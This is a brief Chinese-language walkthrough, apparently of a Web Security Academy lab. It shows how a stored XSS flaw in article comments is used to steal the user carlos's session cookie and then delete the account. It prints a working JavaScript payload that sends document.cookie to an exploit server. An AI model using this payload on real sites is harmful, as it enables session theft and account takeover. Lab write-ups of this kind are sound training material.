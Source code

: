 删除用户操作需要输入用户cookie。



1. 登陆wiener用户发现。其cookie，由base64编码wiener:md5(密码）组成



2. 通过xss获取carloas用户cookie

发现文章评论处存在xss漏洞。payload:

```javascript
<script>
document.location='//your-exploit-server-id.web-security-academy.net/'+document.cookie
</script>
```



将url跟改为burp客户端url或者实验提供的利用服务器都可以。



3. 提交评论之后，在利用服务器获取到用户cookie

![](images/37686424729E4782A555E5CDBC7423B7clipboard.png)



![](images/AE524586DF254AE08709A8C587FCD195clipboard.png)



![](images/D69E452D8915426E867EB5EA2BD5E729clipboard.png)

